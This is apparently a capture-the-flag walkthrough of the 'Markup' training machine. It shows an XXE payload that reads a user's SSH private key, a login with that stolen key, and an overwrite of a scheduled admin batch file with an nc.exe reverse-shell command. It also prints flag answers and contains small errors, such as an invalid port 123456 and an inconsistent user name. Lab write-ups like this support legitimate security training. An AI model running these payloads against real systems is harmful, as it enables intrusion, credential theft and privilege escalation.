


### Markup

**OS:** Windows<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Apache, SSH, PHP, Reconnaissance, Scheduled Job Abuse, Weak Credentials, Arbitrary File Upload, XXE Injection, Weak Permissions<br>

---

#### Task 1
**What version of Apache is running on the target's port 80?**
> 2.4.41



#### Task 2
**What username:password combination logs in successfully?**
> admin:password

We use Hydra to find valid credentials:



#### Task 3
**What is the word at the top of the page that accepts user input?**
> Order


#### Task 4
*What XML version is used on the target?*
> 1.0

We make an order and use Burp Suite to intercept the request. We see that the XML version is hardcoded into HTTP POST Request data:

```xml
<?xml version = "1.0"?>
    <order>
        <quantity>1</quantity>
        <item>1</item>
        <address>Test</address>
    </order>
```

#### Task 5
**What does the XXE / XEE attack acronym stand for?**
> XML External Entity

#### Task 6
**What username can we find on the webpage's HTML code?**
> Daniel

Looking at the underlying source code on the orders page, we see a comment:

```html
<!-- Modified by Daniel : UI-Fix-9092-->
```

#### Task 7
**What is the file located in the Log-Management folder on the target?**
> job.bat

We can use Burp Suite to send and XEE Payload for a LFI vulnerability:

```xml
<?xml version = "1.0"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///C:/users/daniel/.ssh/id_rsa">
]>
<order>
    <quantity>1</quantity>
    <item>&file;</item>
    <address>Test</address>
</order>
```

We get the value of David's SSH Key from the LFI and use it to to authenticate to the target system:

```Bash
$ nano ~/.ssh/id_rsa
$ chmod 700 ~/.ssh
$ chmod 600 ~/.ssh/id_rsa
ssh -i ~/.ssh/id_rsa daniel@10.129.95.192
```

Once in the target system, we see that there is a file `job.bat` in the C:\Log-Management directory.


---

#### Task 8
*What executable is mentioned in the file mentioned before?*
> wevtutil.exe 

We view the contents of `job.bat`:

```
@echo off 
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

---


---

#### User Flag
> 032d2fc8952a8c24e39c8f0ee9918ef7


#### Root Flag
> f574a3e7650cebd8c39784299cb570f8

We setup a listener on port `123456` of our computer. Then we transfer the Netcat Executable `nc.exe` to the `C:\Log-Management` folder of the target computer. We overwrite the contents of `job.bat` to open a reverse Windows Command Shell. Since the `job.bat` executable runs with Administrator permissions, our command shell will also run with Administrator permissions:

```Powershell
daniel@MARKUP C:\Log-Management>echo C:\Log-Management\nc.exe -e cmd.exe 10.10.15.75 123456 > job.bat
```

---

---